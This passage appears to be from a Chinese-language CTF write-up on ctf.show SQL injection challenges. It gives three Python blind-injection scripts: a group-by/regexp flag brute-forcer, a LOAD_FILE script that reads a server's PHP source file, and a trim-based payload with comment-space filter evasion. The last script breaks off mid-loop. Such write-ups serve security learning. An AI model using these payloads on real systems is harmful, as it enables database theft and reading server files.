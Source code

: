 ```python
import requests
import string

url = 'http://e62dd2da-6dc5-4d4c-8907-ab198e411f30.challenge.ctf.show/select-waf.php'
uuid = string.digits+string.ascii_lowercase+"-}"
passwd = 'ctfshow_user group by pass having pass regexp(0x63746673686f777b' #ctfshow{

for i in range(40):
    for char in uuid:
        data = {
            'tableName' : passwd +f"{hex(ord(char))[2:]})"
        }
        res = requests.post(url, data=data)
        if "$user_count = 1;" in res.text:
            passwd += hex(ord(char))[2:]
            print(passwd)
            break

```

#### load_file盲注

`LOAD_FILE(file_name)`： 读取文件并返回文件内容为字符串。要使用此函数，文件必须位于服务器主机上，必须指定完整路径的文件，而且必须有FILE权限。

```python
import requests
url = "http://e232d7fb-b70d-4123-a740-369d7137c5dd.challenge.ctf.show:8080/api/index.php"
all_str = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
flag = "ctfshow{"

for i in range(200):
    for j in all_str:
        data = {
            "username":"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)".format(flag + j),
            'password':0
        }
        res = requests.post(url=url, data=data)
        if r"\u5bc6\u7801\u9519\u8bef" in res.text:
            flag +=j
            print(flag)
            break
        if j=='}':
            exit()
```

#### trim盲注

```python
import requests
import string

url="http://b1c54244-c67c-41e9-80af-c6c916ee3cf2.challenge.ctf.show/api/v4.php?id=1'"

uuid=string.ascii_lowercase+"-}{"+string.digits
flag="ctfshow{"

for i in range(1,46):
    for j in uuid:
        payload = f"and trim(leading '{flag}{j}' from (select group_concat(password) from ctfshow_user4 where username = 'flag'))=trim(leading '{flag}.' from (select group_concat(password) from ctfshow_user4 where username = 'flag'))--%20".replace(" ", "/**/")
        res = requests.get(url+payload)
        print(j)
        if "admin" not in res.text:
```